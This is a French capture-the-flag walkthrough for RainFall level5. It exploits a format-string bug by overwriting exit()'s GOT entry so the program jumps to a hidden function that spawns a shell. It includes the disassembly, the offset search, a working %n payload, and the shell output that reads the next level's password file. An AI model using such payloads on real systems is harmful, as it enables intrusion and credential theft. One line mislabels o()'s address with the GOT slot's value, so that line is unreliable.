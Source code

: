 # Level5: FORMAT STRING

#### Première étape — tester le programme

```bash
$ ./level5
a
a
```

Le programme affiche l'entrée.

### Ouvrons le binaire
```s
080484a4 <o>:
 80484a4:	55                   	push   %ebp
 80484a5:	89 e5                	mov    %esp,%ebp
 80484a7:	83 ec 18             	sub    $0x18,%esp
 80484aa:	c7 04 24 f0 85 04 08 	movl   $0x80485f0,(%esp)
 80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
 80484b6:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>

080484c2 <n>:
 80484c2:	55                   	push   %ebp
 80484c3:	89 e5                	mov    %esp,%ebp
 80484c5:	81 ec 18 02 00 00    	sub    $0x218,%esp
 80484cb:	a1 48 98 04 08       	mov    0x8049848,%eax
 80484d0:	89 44 24 08          	mov    %eax,0x8(%esp)
 80484d4:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
 80484db:	00 
 80484dc:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 80484e2:	89 04 24             	mov    %eax,(%esp)
 80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
 80484ea:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 80484f0:	89 04 24             	mov    %eax,(%esp)
 80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
 80484f8:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>

08048504 <main>:
 8048504:	55                   	push   %ebp
 8048505:	89 e5                	mov    %esp,%ebp
 8048507:	83 e4 f0             	and    $0xfffffff0,%esp
 804850a:	e8 b3 ff ff ff       	call   80484c2 <n>
 804850f:	c9                   	leave  
 8048510:	c3                   	ret  
```

Comme les niveaux precedent nous pouvons voir dans la fonction n un printf non proteger suivi d'un **exit()** et la fonction **o()** qui n'est pas appeler dans le main donc nous allons passer dans la section **.got** et ecrasser l'adresse de **exit()** et la remplacer par l'adresse de **o()**.

### Recherchez les adresses.

```bash
level5@RainFall:~$ objdump -R ./level5 

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
> **_exit-adress:** _l'adresse de la fonction exit est 0x08049838_.

```bash
(gdb) p &o
$1 = (<text variable, no debug info> *) 0x80484a4 <o>
```
> _**O-adress:**_ _l'adresse de la fonction **o** est 0x08049838_.

### Trouver l'offset


_**Maintenant nous allons trouver l'offset avec printf comme d'habitude**_

```bash
level5@RainFall:~$ python -c 'print "AAAA" + ".%p"*10' | ./level5 
AAAA.0x200.0xb7fd1ac0.0xb7ff37d0.0x41414141.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70
level5@RainFall:~$ ./level5 
AAAA%4$x
AAAA41414141
```
> **l'offset de printf est le 4ᵉ parametres.**


### Creation du payload

```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824c%4$n"'; cat) | ./level5
```
> adresse cible = \x38\x98\x04\x08 (0x08049838 (exit))
> adresse de remplacement = 134513828 - 4 = 134513824 (0x80484a4(o))

```bash
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

TADA ! 

Bonne chance et have fun :)

